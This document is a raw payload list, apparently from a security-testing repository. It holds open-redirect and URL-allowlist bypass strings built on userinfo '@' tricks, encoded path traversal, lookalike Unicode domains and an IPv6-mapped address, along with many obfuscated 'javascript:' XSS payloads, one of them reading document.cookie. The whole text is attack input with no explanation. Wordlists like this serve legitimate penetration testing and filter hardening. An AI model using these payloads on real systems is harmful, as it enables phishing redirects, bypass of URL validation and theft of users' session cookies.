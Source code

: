 http:XY>.7d8T\205pZM@[::ffff:216.58.214.206]
http://XY>.7d8T\205pZM@whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
http://XY>.7d8T\205pZM@whitelisted.com+@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
http://XY>.7d8T\205pZM@whitelisted.com@google.com/
http://XY>.7d8T\205pZM@whitelisted.com+@google.com/
ja\nva\tscript\r:alert(1)
java%09script:alert(1)
java%0ascript:alert(1)
java%0d%0ascript%0d%0a:alert(0)
java%0dscript:alert(1)
Javas%26%2399;ript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\twhitelisted.com/
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/whitelisted.com
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\@whitelisted.com
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/whitelisted.com
whitelisted.com;@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
/\whitelisted.com:80%40google.com
whitelisted.com@%E2%80%AE@google.com
////whitelisted.com@google.com//
////whitelisted.com@google.com/
///whitelisted.com@google.com//
///whitelisted.com@google.com/
//whitelisted.com@google.com//
//whitelisted.com@google.com/
whitelisted.com;@google.com
whitelisted.com.google.com
////whitelisted.com@google.com/%2e%2e
///whitelisted.com@google.com/%2e%2e
////whitelisted.com@google.com/%2e%2e%2f
///whitelisted.com@google.com/%2e%2e%2f
//whitelisted.com@google.com/%2e%2e%2f